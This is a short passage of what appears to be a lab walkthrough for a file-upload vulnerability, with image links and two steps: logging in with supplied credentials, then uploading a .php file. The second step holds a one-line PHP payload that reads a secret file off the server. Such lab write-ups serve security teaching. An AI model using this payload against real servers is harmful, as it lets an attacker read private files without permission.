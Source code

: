 <img width="551" alt="image" src="https://github.com/user-attachments/assets/35978cb0-04bc-4fc2-ab9c-07fb0eb51509" /><img src="images/image1.png" alt="third" width="500">
  
**Step 1:**

Login with given credential

<img src="images/image2.png" alt="third" width="500">

**Step 2:**

Create a .php and save this exploit

`<?php echo file_get_contents('/home/carlos/secret'); ?>`
